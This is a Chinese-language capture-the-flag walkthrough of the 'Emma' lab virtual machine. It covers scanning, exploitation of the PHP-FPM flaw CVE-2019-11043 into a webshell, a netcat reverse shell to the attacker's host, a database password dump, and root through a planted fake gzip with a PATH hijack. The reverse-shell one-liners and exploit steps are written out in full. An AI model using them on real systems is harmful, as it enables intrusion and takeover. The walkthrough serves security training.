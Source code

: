 # Emma

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2021-02-04

✔️ MD5 // 43b7626e2d43405be800ca0c0abb30b6

☠ Root // 50

💀 User // 55

📝Notes //
Hack and Fun!

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.113
```

## nmap 信息搜集

```plaintext
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 4a:4c:af:92:cc:bb:99:59:d7:2f:1b:99:fb:f1:7c:f0 (RSA)
|   256 ba:0d:85:69:43:86:c1:91:7c:db:2a:1e:34:ab:68:1e (ECDSA)
|_  256 a1:ac:2c:ce:f4:07:da:96:12:74:d1:54:9e:f7:09:04 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

## web 服务

尝试直接目录爆破

```plaintext
[10:46:34] 200 -    0B  - /index.php
[10:46:34] 200 -    0B  - /index.php/login/
[10:46:43] 200 -   58KB - /phpinfo.php
[10:46:47] 200 -   15B  - /robots.txt
```

访问 `/robots.txt` 得到

```plaintext
itwasonlyakiss
```

访问 `/phpinfo.php`，得到以下版本信息

```plaintext
PHP Version 7.1.33dev
```

根据版本信息进行查找，可以定位到这个漏洞

```plaintext
CVE-2019-11043
```

### 漏洞利用

采用 [neex/phuip-fpizdam: Exploit for CVE-2019-11043](https://github.com/neex/phuip-fpizdam)

```shell
randark@developer:~/code/VNCTF-OnlyLocalSql$ docker run --rm ypereirareis/cve-2019-11043 http://192.168.56.113/index.php
2024/02/18 05:51:03 Base status code is 200
2024/02/18 05:51:05 Status code 502 for qsl=1765, adding as a candidate
2024/02/18 05:51:07 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2024/02/18 05:52:15 Attack params found: --qsl 1755 --pisos 22 --skip-detect
2024/02/18 05:52:15 Trying to set "session.auto_start=0"...
2024/02/18 05:52:18 Detect() returned attack params: --qsl 1755 --pisos 22 --skip-detect <-- REMEMBER THIS
2024/02/18 05:52:18 Performing attack using php.ini settings...
2024/02/18 05:52:20 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2024/02/18 05:52:20 Trying to cleanup /tmp/a...
2024/02/18 05:52:20 Done!
```

可以看到 webshell 被成功植入，尝试利用

```shell
randark@developer:~/code/VNCTF-OnlyLocalSql$ curl http://192.168.56.113/index.php?a=/bin/bash+-c+whoami
www-data
```

## User - www-data

```shell
# http://192.168.56.113/index.php?a=/bin/sh+-c+%27id;nc%20-c%20bash%20192.168.56.102%209999%27&\
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[13:55:11] Welcome to pwncat 🐈!
[13:57:01] received connection from 192.168.56.113:49336
[13:57:01] 192.168.56.113:49336: registered new host w/ db
(local) pwncat$ back
(remote) www-data@emma:/var/www/html$ whoami
www-data
```

### 数据库访问

采用 web 服务 `/robots.txt` 返回的 `itwasonlyakiss` 作为密码

```sql
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| users              |
+--------------------+

MariaDB [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| users           |
+-----------------+

MariaDB [users]> select * from users;
+----+------+----------------------------------+
| id | user | pass                             |
+----+------+----------------------------------+
|  1 | emma | 5f4dcc3b5aa765d61d8327deb882cf80 |
+----+------+----------------------------------+
```

得到

```plaintext
emma:5f4dcc3b5aa765d61d8327deb882cf80
```

## User - emma

```shell
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs emma@192.168.56.113
[14:54:09] Welcome to pwncat 🐈!
Password: ********************************
[14:54:12] 192.168.56.113:22: normalizing shell path
           192.168.56.113:22: registered new host w/ db
(local) pwncat$ back
(remote) emma@emma:/home/emma$ whoami
emma
```

### flag - user

```shell
(remote) emma@emma:/home/emma$ cat user.txt
youdontknowme
```

### 环境探测

```plaintext title="sudo -l"
Matching Defaults entries for emma on emma:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User emma may run the following commands on emma:
    (ALL : ALL) NOPASSWD: /usr/bin/gzexe
```

同时用户目录下存在 suid 程序

```plaintext title="ls -lah"
(remote) emma@emma:/home/emma$ ls -lah
total 68K
drwxr-xr-x 4 emma emma 4.0K Feb 18 03:48 .
drwxr-xr-x 3 root root 4.0K Feb  4  2021 ..
-rw------- 1 emma emma    5 Feb 18 03:48 .bash_history
-rw-r--r-- 1 emma emma  220 Feb  4  2021 .bash_logout
-rw-r--r-- 1 emma emma 3.5K Feb  4  2021 .bashrc
-rwx------ 1 emma emma 1.9K Feb  4  2021 flag.sh
drwx------ 3 emma emma 4.0K Feb 18 01:54 .gnupg
drwxr-xr-x 3 emma emma 4.0K Feb  4  2021 .local
-rw-r--r-- 1 emma emma  807 Feb  4  2021 .profile
-rw------- 1 emma emma   14 Feb  4  2021 user.txt
-rwsr-s--- 1 root emma  17K Feb  4  2021 who
-rw-r--r-- 1 emma emma  185 Feb  4  2021 who.c
-rw------- 1 emma emma   50 Feb  4  2021 .Xauthority
```

查看`who`程序的源码

```c title="who.c"
#include <stdio.h>
#include <stdlib.h>
void main(){
    setuid(0);
    setgid(0);
    printf("Im \n");
    system("/bin/id");
    setuid(1000);
    setgid(1000);
    printf("But now Im \n");
    system("/bin/id");
}
```

由于 `gzexe` 压缩程序后，再运行被压缩的程序，就会调用一次 `gzip`，所以可以先对 `id` 进行压缩操作，然后将恶意载荷植入 `unzip` 中，就可以实现提权

## User - root

```shell
emma@emma:~$ sudo -u root /usr/bin/gzexe /bin/id
emma@emma:~$ cd /tmp
emma@emma:/tmp$ echo "nc -e /bin/bash 192.168.56.102 7777" > gzip
emma@emma:/tmp$ chmod +x gzip
emma@emma:/tmp$ export PATH=/tmp:$PATH
emma@emma:/tmp$ cd
emma@emma:~$ ./who
```

### flag - root

```plaintext
itsmeimshe
```
